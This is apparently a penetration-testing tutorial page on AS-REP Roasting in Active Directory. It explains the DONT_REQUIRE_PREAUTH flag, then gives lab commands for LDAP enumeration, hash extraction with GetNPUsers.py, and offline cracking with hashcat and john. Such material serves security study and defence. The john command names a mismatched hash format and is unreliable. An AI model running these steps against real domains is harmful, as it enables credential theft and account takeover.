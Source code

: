 # AS-REP Roast

## Attack Description

AS-REP Roasting is an attack against Kerberos that targets user accounts that do not require Kerberos pre-authentication. The flag 'UF\_DONT\_REQUIRE\_PREAUTH' , is found in the user's properties under the 'userAccountControl' attribute. This attribute is normally displayed as a decimal or hexidecimal value, which is calculated based on the sum of the values for the required flags.

For example, a user may have the following setting, which equals a decimal value of '4260352':

userAccountControl 0x410200 = (NORMAL\_ACCOUNT | __ DONT\_EXPIRE\_PASSWORD | DONT\_REQUIRE\_PREAUTH)

> FLAG                                       HEX               DECIMAL\
> NORMAL\_ACCOUNT             0x0200         512\
> DONT\_EXPIRE\_PASSWORD   0x10000       65536\
> DONT\_REQ\_PREAUTH           0x400000    4194304\
> \
> 512+65536+4194304=4260352

Below is a diagram which shows the Kerberos authentication process. What is important to note is that the AS-REP packet is a response to the AS-REQ packet, and so if the 'DONT\_REQUIRE\_PREAUTH' flag is enabled, anyone can send an AS-REQ packet and retrieve the TGT hash for the specified account.

![Source: https://adsecurity.org/?p=1667](../../.gitbook/assets/kerberos\_tickets1.JPG)

## Attack Requirements

&#x20;In order to complete this attack, we need to do the following, and so any tool that can assist with providing the following functionality can be used:

* Query AD and extract data including user account information
* Find an account (user, service) which has the 'DONT\_REQUIRE\_PREAUTH' flag enabled
* Extract the TGT hash for the account
* Crack the hash

## Attack Tools

The list of tools below contains some of the tools that can be used for this attack. Note that some of the listed tools do the same thing, and so it's down to user preference as to which tools are used.

### Tools:

ldapsearch --> opens a connection to a LDAP server, binds, and performs a search using specified parameters

windapsearch --> enumerate users, groups and computers from a Windows domain through LDAP queries (based on ldapsearch, but contains built in LDAP queries via options)

GetNPUsers.py (Impacket) --> queries AD for TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ set (UF\_DONT\_REQUIRE\_PREAUTH)

hashcat --> crack the hash

john --> crack the hash

## Attack Example

### Discovery

First, we need to determine if we are able to query the target directory server using LDAP as an anonymous user. If successful, we can query the directory database anonymously.&#x20;

> NOTE: Being able to query the database anonymously is NOT a requirement, it can also be done with a valid domain user account. The important thing to note is that in order for this attack to succeed, we need to be able to query the database.

Using ldapsearch:

```
ldapsearch -h 10.99.99.101 -p 389 -x -b "dc=testdomain,dc=local"
```

Using windapsearch:

```
windapsearch.py --dc-ip 10.99.99.101
```

Next, we need to query the directory for accounts that have the 'DONT\_REQUIRE\_PREAUTH' flag enabled:

Using GetNPUsers.py (Impacket):

```
GetNPUsers.py testdomain.local/ -dc-ip 10.99.99.101
```

### Exploit

Once we have found an account with the 'DONT\_REQUIRE\_PREAUTH' flag enabled, we can extract the TGT hash for the account. To do this, we can use GetNPUsers.py from Impacket.

```
GetNPUsers.py testdomain.local/username -dc-ip 10.99.99.101 -format hashcat -outputfile tgt.hashcat
GetNPUsers.py testdomain.local/username -dc-ip 10.99.99.101 -format john -outputfile tgt.john
```

Finally, all that is left to do is to crack the hash:

Using hashcat:

```
hashcat -m 18200 --force tgt.hashcat /usr/share/wordlists/rockyou.txt 
```

Using john:

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt tgt.john
```



## References

{% embed url="https://attack.mitre.org/techniques/T1558/004" %}

{% embed url="https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties" %}

{% embed url="http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm" %}

{% embed url="https://techcommunity.microsoft.com/t5/security-compliance-and-identity/helping-protect-against-as-rep-roasting-with-microsoft-defender/ba-p/2244089" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps" %}

{% embed url="https://github.com/ropnop/windapsearch" %}

{% embed url="https://linux.die.net/man/1/ldapsearch" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
